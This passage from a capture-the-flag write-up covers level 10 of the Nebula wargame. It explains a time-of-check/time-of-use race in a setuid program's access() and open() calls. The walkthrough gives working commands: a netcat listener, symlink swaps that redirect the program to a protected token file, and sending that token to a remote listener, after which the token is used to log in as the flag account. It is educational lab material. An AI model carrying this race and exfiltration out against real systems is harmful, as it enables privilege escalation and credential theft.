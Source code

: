     printf("wrote file!\n");

  } else {
    printf("You don't have access to %s\n", file);
  }
}

{{< / highlight >}}

Now this one take a bit of playing around to get it right. Basically what we are exploiting here is that the file gets checked and then gets used. The `access` call checks the permissions based on the actual user, not the guid user. The file open calls however will run as the guid user. So in between these two calls, we *could* modify the target file and get the program to read the right file.

So ideally we want to create a symlink to a file we own when the `access` call runs, then replace that symlink with one that points to the token file. This relies heavily on timing when to update the symlink. I had a play and this is the most reliable way I have found.

You will need two shells (both on nebula is fine but optional); call them termA and termB. So in termB startup a listening netcat on the relevant port

{{< highlight console >}}
level10@nebula:~$ nc -l 18211
{{< / highlight >}}

in termA we create our symlink, then run the command along with a command to update the symlink

{{< highlight console >}}
level10@nebula:/home/flag10$ touch /tmp/mytoken
level10@nebula:/home/flag10$ ln -fs /tmp/mytoken /tmp/getme
level10@nebula:/home/flag10$ ./flag10 /tmp/getme 192.168.0.8 & ln -fs /home/flag10/token /tmp/getme
[1] 7359
Connecting to 192.168.0.8:18211 .. level10@nebula:/home/flag10$ Connected!
Sending file .. wrote file!
{{< / highlight >}}

Meanwhile, back in termB

{{< highlight console >}}
.oO Oo.
615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
level10@nebula:~$ ssh flag10@localhost

flag10@localhost's password: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27

flag10@nebula:~$ getflag
You have successfully executed getflag on a target account
{{< / highlight >}}

[Part 2 of Cracking Nebula](http://unlogic.co.uk/2014/07/02/cracking-nebula-part2/)

